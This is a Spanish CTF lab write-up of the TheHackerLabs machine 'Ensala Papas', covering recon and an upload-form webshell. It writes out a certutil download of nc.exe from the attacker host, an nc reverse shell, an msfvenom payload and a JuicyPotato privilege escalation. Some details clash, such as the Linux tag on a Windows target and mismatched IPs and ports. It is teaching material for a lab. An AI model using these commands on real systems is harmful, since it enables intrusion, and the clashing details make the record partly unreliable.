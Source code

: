 ```yaml
---
title: "TheHackerLabs - Principiante : [Ensala Papas]"
date: 2024-07-02 10:00:00 +0200
categories: [CTF, Writeups, TheHackerLabs, Linux, Principiante]
tags: [CTF, Writeups, TheHackerLabs, Linux, Principiante]
image: /img/posts/CTF/ensala/logo.png
---
```


## Introducción

Hoy vamos a realizar el desafío de la máquina CTF llamada **[Ensala Papas](https://thehackerslabs.com/ensala-papas/)** en TheHackerLabs. Este es un reto de nivel principiante que opera bajo un sistema Linux. **Tengo un aprecio especial por esta máquina** ya que me enfrenté a muchos obstáculos durante el proceso y logré superarlos con éxito.

A lo largo de este viaje, recibí **consejos valiosos de la comunidad**, y justo cuando estaba a punto de darla por perdida, decidí darme un margen de dos días. Después de este breve descanso, me puse de nuevo con el desafío y logré resolverlo. Por eso, este writeup me hace especial ilusión compartirlo.

Este análisis no solo refleja la solución al reto, sino también los **innumerables quebraderos de cabeza** que enfrenté y cómo los superé. Este tipo de experiencias a menudo se omiten en los writeups convencionales, que suelen centrarse únicamente en las soluciones. Aquí, sin embargo, quiero destacar tanto los desafíos como las victorias. Para más detalles sobre estos desafíos, véase la sección [Conclusiones](#conclusiones).

---

## Entorno inicial

### Escaneo de red con `arp-scan`

Para iniciar nuestro análisis, ejecutamos el siguiente comando en la terminal:

```bash
arp-scan -I enp0s17 --localnet
```

### ¿Qué hace este comando?

`arp-scan` utiliza el protocolo ARP para identificar dispositivos activos en una red local. El parámetro `-I enp0s17` especifica la interfaz de red a utilizar. El argumento `--localnet` le indica a `arp-scan` que escanee todos los hosts en la subred local.

**Resultados del escaneo:**

```
Interface: enp0s17, type: EN10MB, MAC: 08:00:27:bd:21:e7, IPv4: 10.0.2.10
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)

192.168.1.49    08:00:27:f4:9b:0a    (Unknown)

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 3.085 seconds (82.98 hosts/sec). 4 responded
```

### Interpretación de los resultados:

1. La herramienta escaneó 256 hosts en la red local y encontró 4 dispositivos activos.
2. La línea `192.168.1.49 08:00:27:f4:9b:0a (Unknown)` muestra un dispositivo activo que parece interesante para continuar.

---

## Enumeración

### Escaneo detallado con `nmap`

Utilizamos un script personalizado para escanear la IP obtenida:

```bash
sudo ./escaneo.sh 192.168.1.49
```

Este script automatiza el uso de `nmap` para un escaneo detallado. Los resultados se guardaron en un archivo:

```
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 7.5
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds
```

El servidor HTTP ejecuta IIS 7.5, un punto potencialmente vulnerable.

---

## Análisis y explotación inicial

### Enumeración con `gobuster`

Para buscar directorios y archivos ocultos, usamos el siguiente comando:

```bash
gobuster dir -u http://192.168.1.49 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x asp,aspx,html,php
```

**Resultados:**
- `/zoc.aspx` (200 OK): Un formulario de subida de archivos.
- `/Subiditosdetono/` (403 Forbidden): Directorio restringido.

### Explotación del formulario de subida

Probamos subir un archivo `web.config` modificado, encontrado en [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings). El archivo se subió correctamente al directorio `Subiditosdetono`, y logramos ejecutar un webshell.

---

## Escalada de privilegios

### Preparación del entorno

Transferimos `nc.exe` al servidor usando `certutil`:

```bash
certutil -split -urlcache -f http://192.168.1.47/nc.exe c:\temp\nc.exe
```

Establecimos un listener en nuestra máquina:

```bash
nc -lnvp 443
```

Desde el servidor, ejecutamos el siguiente comando para obtener una reverse shell:

```bash
c:\temp\nc.exe -e cmd 192.168.1.47 443
```

### Uso de `JuicyPotato` para escalada

Generamos un payload con `msfvenom`:

```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.47 LPORT=8899 -f exe -o shell.exe
```

Transferimos el payload y `JuicyPotato.exe` al servidor, y ejecutamos:

```bash
JuicyPotato.exe -l 443 -t * -p shell.exe -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}"
```

---

## Root conseguido

Finalmente, logramos acceso completo al sistema y capturamos la flag:

```bash
c:\Users\Administrador\Desktop>type root.txt
j**34**f**3*****************************
```

---

## Conclusiones

Este CTF fue un viaje de aprendizaje y perseverancia. Aunque fue clasificado como nivel principiante, enfrenté varios desafíos que me llevaron a aprender nuevas técnicas. La paciencia y la consulta de recursos como [HackTricks](https://book.hacktricks.xyz/) fueron clave.

Si estás comenzando en el mundo de los CTF, este reto es ideal para practicar habilidades básicas y entender la importancia de cada paso en un análisis de seguridad.

**Recuerda visitar:** [Ensala Papas](https://thehackerslabs.com/ensala-papas/) para intentar este CTF.
